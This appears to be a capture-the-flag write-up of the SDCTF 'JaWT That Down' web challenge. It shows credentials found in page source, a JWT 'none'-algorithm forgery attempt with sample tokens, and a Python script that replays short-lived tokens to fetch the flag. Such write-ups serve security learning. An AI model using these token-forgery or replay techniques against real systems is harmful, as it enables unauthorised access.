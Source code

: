 # JaWT That Down

**Category**: Web  
**Level**: Easy  
**Points**: 200  
**Description**:
```
The new ultra maximum security plugin I installed on my website is so good that even I can’t log in. Hackers don’t stand a chance.
Website
https://jawt.sdc.tf/
```

## Writeup

The description of this challenge doesn't have much clues but the creator have deliberately captilized the letters 'J', 'W', 'T' in the heading which caught our attention. We immediately got the hint that this challenge will require the knowledge of JWT and its exploitation. We started by glancing through the website's functionality on a very high level and were easily able to figure out that we somehow have to get through the user login. This will provide us the JWT token which can be further exploited to get the flag. After this high level run through, I was assigned to pick up this challenge.

I started by performing SQL injection in the login form with simple payloads from the top of my head but it didn't work. I was tempted to run sqlmap behind the scenes but I resisted and looked through the source code using browser's(Chrome in my case) debugger tools. I took this detour because I had also spent time on the challenge 'HuMongous Mistake'(which I wasn't able to solve) and found some useful comments in the HTML source code. 
In a similar manner, I found the user credentials and was able to successfully log in which saved me a lot of time.

![Browser Debugger Tools HTML Code](https://raw.githubusercontent.com/shwetankarora/ctf-writeups/main/2022/SDCTF/web/JaWT_that_down/screenshots/browser_debugger_user_pass.png)

After login, the first thing that caught my eye was an extra menu item named 'Flag' on the top left but once I click on it, it showed "Invalid Token: Access Denied". 

![Browser Flag Menu Item](https://raw.githubusercontent.com/shwetankarora/ctf-writeups/main/2022/SDCTF/web/JaWT_that_down/screenshots/browser_flag_menu_item.png)

![Browser Invalid Token](https://raw.githubusercontent.com/shwetankarora/ctf-writeups/main/2022/SDCTF/web/JaWT_that_down/screenshots/browser_invalid_token.png)

I fired up Burp Suite and intercepted the HTTP call which is sent once I click on 'Flag'. Let's call it flag endpoint. The first thing that caught my eye was the JWT token which is passed in Cookie request header. So, I replayed the request after removing the Cookie request header which showed me a different error "No Token: Access Denied". I was fully convinced that I am on the right track and I need to pass a valid JWT token in order to proceed. 

![Burp Suite No Token](https://raw.githubusercontent.com/shwetankarora/ctf-writeups/main/2022/SDCTF/web/JaWT_that_down/screenshots/burp_suite_no_token.png)

My next step was to figure out why my JWT isn't valid. I read the token on https://jwt.io/ and figured out that the issue time and expiry time has a gap of mere 2 seconds which explained the error "Invalid Token: Access Denied" because by the time I clicked on 'Flag' the token was already expired. I had two solutions in my mind to overcome this problem:
- Either, I can verify if JWT signature verfiication can be bypassed which will allow me to increase the expiry time.
- Or, I make a script to automate this process of logging in and using the JWT token in the next flag endpoint.

### First Approach

I went with the first option because writing a script for me would take comparatively more time. Here is a [good read of JWT's 'none' algorithm](https://medium.com/@phosmet/forging-jwt-exploiting-the-none-algorithm-a37d670af54f).
Essentially, I divided the JWT token into 3 base64 encoded parts by splitting it using '.'(period). I base64 decoded the first part on https://www.base64decode.org/, changed the value of "alg" to "none", base64 encoded it on https://www.base64encode.org/. This was tampering of first part of JWT(called header). Then I did the same thing with the second part(called payload) except I increased the expiry to a month. I joined both the parts and recreated my final JWT token

**Before**: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IkF6dXJlRGlhbW9uZCIsInRva2VuIjoiZGVmZjVmZmU0YWY0OWYzOWE3ZjI2YTBlN2U0NGQ1NCIsImlhdCI6MTY1MjE3NzExMiwiZXhwIjoxNjUyMTc3MTE0fQ.jmcOs7t4hSFYad3wz2S993jJ7lQOYbG_paBrqSByBBM`

**After**: `eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6IkF6dXJlRGlhbW9uZCIsInRva2VuIjoiZGVmZjVmZmU0YWY0OWYzOWE3ZjI2YTBlN2U0NGQ1NCIsImlhdCI6MTY1MjE3NzExMiwiZXhwIjoxNjU0ODU3NDI3fQ.`

However, I got the same error "Invalid Token: Access Denied" using my new token. Hence, I scratched out the first approach and went back to the second approach.

### Second Approach

I quickly wrote a little python script which looked like this:
```python
import requests
from requests_toolbelt.utils import dump

ch = 's'

loginUrl = "https://jawt.sdc.tf/login"
payload = {'username':'AzureDiamond','password':'hunter2'}

r = requests.post(loginUrl, data=payload, allow_redirects=False)
cookieHeader = r.headers['Set-Cookie']
if not cookieHeader:
	print("cookie header not found")
	exit()

cookieKeyValue = cookieHeader.split(";")[0].split("=")

flagUrl = "https://jawt.sdc.tf/"+ch

cookies = {}
cookies[cookieKeyValue[0]] = cookieKeyValue[1]

re = requests.get(flagUrl, cookies=cookies)
data = dump.dump_all(re)
print(data.decode('utf-8'))
```

The above script hits the `/login` endpoint, reads the JWT token from Set-Cookie response header, sets it in the the flag endpoint `/s` and prints the request/response of the flag endpoint. It gave me the following output:

```http
< GET /s HTTP/1.1
< Host: jawt.sdc.tf
< User-Agent: python-requests/2.27.1
< Accept-Encoding: gzip, deflate
< Accept: */*
< Connection: keep-alive
< Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IkF6dXJlRGlhbW9uZCIsInRva2VuIjoiMzc5Y2EyOWRmNmQ5ZjM1N2U5ZTdjZWEzOTcxNzQ2NiIsImlhdCI6MTY1MjE3OTI4MCwiZXhwIjoxNjUyMTc5MjgyfQ.7lxeRGwHBFhpeChplXje1-LLHbF_mdZx7DzrCpgl32M
<

> HTTP/1.1 200 OK
> Date: Tue, 10 May 2022 10:41:20 GMT
> Content-Length: 1
> Connection: keep-alive
> X-Powered-By: Express
> Via: 1.1 google
> CF-Cache-Status: DYNAMIC
> Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
> Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v3?s=aiYf7PWSnmhxBfoNe5a%2BJ8YB3o%2BvUj8O1CK55r300zSWI50ioyAHEvt38IH2N8wAQ2B9uC2tmKKR%2B7CaAzOqcSLY%2FOcBKGoaTu%2BmO8MAyiIyIQB3LQ0VOZckW%2BXQMQ%3D%3D"}],"group":"cf-nel","max_age":604800}
> NEL: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
> Server: cloudflare
> CF-RAY: 70920fd6dab29e47-SIN
> alt-svc: h3=":443"; ma=86400, h3-29=":443"; ma=86400
>
d
```

I wasn't able to understand the response of this for a long time. I tried hitting `/d` endpoint by changing the python script but it gave me 404 not found. Similariy, I tried hitting `/sd` and enumerated from `/a` to `/z` both in small and capital letters but got the same result. At this point, I took a new challenge. I later got an idea to give a try to `/s/d` and it worked. It gave me `/c`. Since all the flag of this challenge started with 'sdctf' therefore I continued this methodology by changing the script, saving and hitting one by one. Evnetually I got this endpoint `https://jawt.sdc.tf/s/d/c/t/f/{/T/h/3/_/m/0/r/3/_/t/0/k/3/n/s/_/t/h/e/_/l/e/5/5/_/p/r/0/b/l/3/m/s/_/a/d/f/3/d/}` which has the flag

**Flag** - `sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3ms_adf3d}`


## Real World Application

In real world applications, short-lived JWT tokens are very much used. But even if they are short-lived, they can be exploited to retrieve sensitive information. Hence, reducing the expiry time wouldn't necessarily mean that the system is protected.
During the course of this challenge, I had great fun reading about JWT, JWK and JWS which enhanced my knowledge while at the same time helped me practically understand the exploitation of it. 











